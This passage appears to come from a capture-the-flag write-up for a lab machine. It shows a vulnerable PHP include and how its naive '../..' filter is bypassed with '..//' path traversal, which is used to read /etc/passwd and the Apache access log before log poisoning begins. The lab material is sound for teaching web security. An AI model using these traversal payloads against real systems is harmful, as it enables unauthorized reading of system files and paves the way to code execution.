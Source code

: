 ```
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>

</html>
```


### Log Poisoning

Looking at the base64 value decoded, I find that we are not allowed to use `../..` and we have to start our string with `/var/www/html/development_testing`. These are the only two conditions. A well known bypass for `../..` is to use a [double backslash](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) which we are allowed to do.

I test the double backslash to see if I can read /etc/passwd.


`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//etc/passwd`


![passwd](/assets/archangel/passwd.png)

I can now use this to search the box. Looking for SSH keys do not work and I can’t read any useful files, so I try log poisoning. First, I need to find where the logs are stored. Testing the default places, I find `/var/log/apache2/access.log` contains all logs for the HTTP server.


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log`


![log](/assets/archangel/log.png)

